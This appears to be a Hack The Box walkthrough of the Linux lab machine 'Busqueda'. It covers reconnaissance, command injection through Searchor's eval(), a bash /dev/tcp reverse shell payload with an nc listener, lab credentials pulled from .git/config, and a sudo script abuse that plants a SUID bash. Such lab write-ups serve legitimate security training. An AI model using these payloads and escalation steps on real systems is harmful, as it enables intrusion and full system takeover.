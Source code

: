## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.208
```

```bash
nmap -p 22,80 -sCV 10.10.11.208
```

### HTTP Service
- [Apache/2.4.52](HTTP.md) + Flask (Werkzeug/2.1.2 Python/3.10.6).
- Redirects to: `http://searcher.htb`

### Virtual Host
Add to `/etc/hosts`:
```text
10.10.11.208 searcher.htb
```

### Directory Fuzzing
```bash
feroxbuster -u http://searcher.htb
```

Found:
- `/search`

---

## 💥 Exploitation (RCE via Python `eval()`)

### Vulnerable App
- Uses [Searchor](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

- Eval-based CLI argument parsing vulnerable to command injection.

### Injection PoC
```bash
searchor search GitHub "' + __import__('os').popen('id').read() + '"
```

### Reverse Shell Payload (Injected via Burp)
```python
' + __import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() + '
```

### Listener
```bash
nc -lnvp 443
```

---

## 🧠 Enumeration (as `svc`)

### Home Directory
```bash
cat ~/.gitconfig  # reveals username "cody"
```

### Web App Path
```bash
cd /var/www/app
ls -la
cat .git/config
```

- Remote repo: `http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/...`

---

## 🔐 Credentials Discovered
- `cody / jh1usoih2bkjaspwe92` (from .git/config)
- `gitea / yuiu1hoiu4i5ho1uh` (from docker inspect ENV)

---

## 🧬 Gitea

Add to `/etc/hosts`:
```text
10.10.11.208 gitea.searcher.htb
```

- Login as `cody` with found creds.
- Also test `administrator / yuiu1hoiu4i5ho1uh` → ✅
- Found private repo: `scripts`
- Contains: `system-checkup.py`

---

## 🔼 Privilege Escalation

### `sudo -l`
```bash
sudo -l
```
```text
User svc may run the following commands on busqueda:
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

### Script Behavior
- `full-checkup` runs `./full-checkup.sh` from CWD.

### Exploit
```bash
cd /tmp
echo -e '#!/bin/bash\ncp /bin/bash /tmp/infinit3i\nchmod 4777 /tmp/infinit3i' > full-checkup.sh
chmod +x full-checkup.sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

### Run Bash as Root
```bash
/tmp/infinit3i -p
```

---

## 🏁 Flags

```bash
cat /home/svc/user.txt
cat /root/root.txt
```